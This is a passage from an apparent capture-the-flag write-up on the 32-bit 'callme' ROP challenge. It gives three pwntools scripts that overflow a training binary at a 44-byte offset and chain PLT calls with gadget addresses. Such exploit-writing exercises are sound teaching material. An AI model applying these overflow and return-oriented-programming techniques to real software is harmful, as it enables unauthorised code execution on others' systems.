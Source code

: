 ```python

p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
log.info(p.recvall())

```

# x86 (32 bit) architecture

in this case the solution is similar to the solution abow.
here i have wrote three solution. Pratically are the same but the sintax inside the pwntools script is different


```python
from pwn import *
context.binary = elf = ELF('./callme32')
offset = 44

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeef
arg2 = 0xcafebabe
arg3 = 0xd00df00d

pop_esi_edi_ebp = 0x080487f9
pop_ebp = 0x080487fb
pop_edi_ebp = 0x080487fa

# SOLUTION 1
insert_prm = p32(pop_esi_edi_ebp)+p32(arg1)+p32(arg2)+p32(arg3)
#payload = b'A'*offset + p32(callme_one) + insert_prm + p32(callme_two) + insert_prm + p32(callme_three) + insert_prm 

# SOLUTION 2
rop = ROP(elf)
param = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

rop.callme_one(*param)
rop.callme_two(*param)
rop.callme_three(*param)
#payload = b'A'*offset + rop.chain()

# SOLUTION 3
rop = ROP(elf)
rop.call('callme_one', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_two', [0xdeadbeef, 0xcafebabe, 0xd00df00d])
rop.call('callme_three', [0xdeadbeef, 0xcafebabe, 0xd00df00d])

payload = b'A'*offset + rop.chain()

p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
```